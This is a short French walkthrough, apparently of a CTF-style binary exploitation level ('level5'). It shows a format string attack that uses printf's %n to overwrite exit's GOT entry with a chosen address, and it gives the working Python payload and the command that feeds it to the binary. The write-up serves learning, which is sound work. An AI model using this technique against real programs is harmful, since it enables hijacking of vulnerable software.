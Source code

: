 Comme dans l'exercice precedent on doit ecrire a l'aide du %n de printf mais cette fois on doit ecrire une addresse.

On a juste a la décomposer en int

Pour ecrire l'adresse 0x080484a4 en décimal sa donne 134513828

Le probleme est que l'on doit le remplacer par une adresse qui est appelé, on choisit exit qui est appelé juste après le printf, celui-co aura modifier l'adresse qui pointe sur exit

134513828 - les 4 octets de l'adresse donne 134513824

0x08049838 est l'adresse de exit@got.plt

```bash
python -c "print('\x38\x98\x04\x08' + '%134513824d' + '%4\$n')" > /tmp/exploit5
cat /tmp/exploit5 - | ./level5
```
